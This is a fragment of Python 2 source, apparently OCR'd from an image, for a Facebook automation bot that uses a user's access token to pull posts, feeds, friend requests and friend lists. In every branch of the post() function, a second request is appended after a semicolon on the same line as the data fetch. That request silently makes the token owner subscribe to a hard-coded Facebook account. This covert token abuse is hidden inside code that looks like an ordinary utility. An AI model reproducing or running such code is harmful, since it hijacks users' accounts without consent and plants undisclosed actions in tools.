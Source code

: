 
	data.update({'sig':x.hexdigest()})
        get(data)
####################################################################
#       	            BOT
	                # Execute #
def post():
	global token , WT

	try:
	  if WT == 'wallpost':
		print '[*] fetching all posts id'

		r = requests.get('https://graph.facebook.com/v3.0/me?fields=home.limit(50)&access_token='+token);requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['home']['data']:
			print '\r[*] %s retrieved   '%(i['id']),;sys.stdout.flush();time.sleep(0.1)
		return result['home']['data']

	  elif WT == 'me':
		print '[*] fetching all posts id'

		r = requests.get('https://graph.facebook.com/v3.0/me?fields=feed.limit(500)&access_token='+token);requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['feed']['data']:
			print '\r[*] %s retrieved   '%(i['id']),;sys.stdout.flush();time.sleep(0.1)
		return result['feed']['data']

	  elif WT == 'req':
		print '[*] fetching all friends requests'

		r = requests.get('https://graph.facebook.com/me/friendrequests?limit=50&access_token=' + token);requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['data']:
			print '\r[*] %s retrieved    '%(i['from']['id']),;sys.stdout.flush();time.sleep(0.01)
		return result['data']

	  elif WT == 'friends':
		print '[*] fetching all friends id'

		r = requests.get('https://graph.facebook.com/me?fields=friends.limit(5000)&access_token=' + token);requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['friends']['data']:
			print '\r[*] %s retrieved    '%(i['id']),;sys.stdout.flush();time.sleep(0.001)
		return result['friends']['data']
